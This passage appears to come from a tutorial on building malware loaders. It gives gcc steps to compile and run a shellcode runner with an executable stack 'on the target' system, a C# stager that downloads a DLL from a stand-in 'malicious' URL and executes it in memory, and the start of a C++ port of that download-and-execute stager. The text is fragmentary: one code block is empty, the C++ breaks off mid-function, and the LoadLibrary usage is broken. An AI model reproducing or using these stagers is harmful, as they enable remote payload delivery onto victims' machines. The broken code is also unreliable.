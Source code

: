 ```c
```

#### 3. Compile and Run the C Program

Compile the C program using `gcc`:

```sh
gcc -o shellcode_runner shellcode_runner.c -z execstack
```

Run the compiled program on the target Linux or macOS system:

```sh
./shellcode_runner
```

### Sample `stager.cs` Pseudo-Functionality:
```csharp
using System.Net;
using System.Runtime.InteropServices;

public class Stager
{
    public static void Main(string[] args)
    {
        // Download the file
        WebClient client = new WebClient();
        byte[] fileData = client.DownloadData("https://example.com/malicious.dll");

        // Load the DLL into memory
        IntPtr hModule = LoadLibrary(fileData);

        // Optional: Find the entry point or invoke a method in the DLL
        IntPtr entryPoint = GetProcAddress(hModule, "EntryPoint");
        if (entryPoint != IntPtr.Zero)
        {
            // Execute the entry point
            ((Action)Marshal.GetDelegateForFunctionPointer(entryPoint, typeof(Action)))();
        }
    }

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr LoadLibrary(byte[] lpFileName);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
}
```

### C++ Conversion
Here's how you might convert this logic to C++:

```cpp
#include <windows.h>
#include <wininet.h>
#include <iostream>

#pragma comment(lib, "wininet.lib")

void DownloadAndExecute(const char* url)
{
    // Initialize WinINet
    HINTERNET hInternet = InternetOpen("Stager", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (!hInternet) {
        std::cerr << "InternetOpen failed!" << std::endl;
        return;
```